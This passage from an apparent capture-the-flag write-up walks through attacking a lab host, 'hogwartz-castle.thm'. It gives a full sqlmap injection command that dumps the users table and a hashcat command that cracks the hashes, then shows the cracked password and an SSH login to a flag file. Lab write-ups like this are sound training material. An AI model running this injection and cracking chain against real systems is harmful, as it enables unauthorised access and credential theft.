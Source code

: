 Nothing important, we are missing something, for example, we only tested for brute force in the login page but nothing else, what about `SQLI`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250404173656.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250404173707.png)

There we go, `SQLI` is possible in this website, let's proceed to exploitation.




# EXPLOITATION
---


Since we already know we got `SQLI`, we can use `sqlmap` to speed up the process:


```
sqlmap -u 'http://hogwartz-castle.thm/login' --random-agent --method POST --data 'user=Harry&password=pass' -p user --skip passwrd --level 5 --risk 3 --dbms SQLite --dump -T users -C name,password,admin,notes --flush-session --threads 10 --no-cast --tamper unionalltounion --union-char 1337
```

From this, we can get a series of hashes, once we save all those hashes, we can proceed to crack them. There's a hint on how to crack them, it says:

```
My linux username is my first name, and password uses best64
```

So, by doing this, we can crack it using hashcat:

```
hashcat --force -m 1700 hashes2.txt spellnames.txt -r /usr/share/doc/hashcat/rules/best64.rule
```

We get the following:

```
b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885:wingardiumleviosa123
```

There we go, we got the credentials, since the username is the first name of him, we got some username on the sqlmap scan:

```
harry:wingardiumleviosa123
```


We can now go into ssh using those credentials:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250404182627.png)

```
harry@hogwartz-castle:~$ cat user1.txt
RME{th3-b0Y-wHo-l1v3d-f409da6f55037fdc}
```

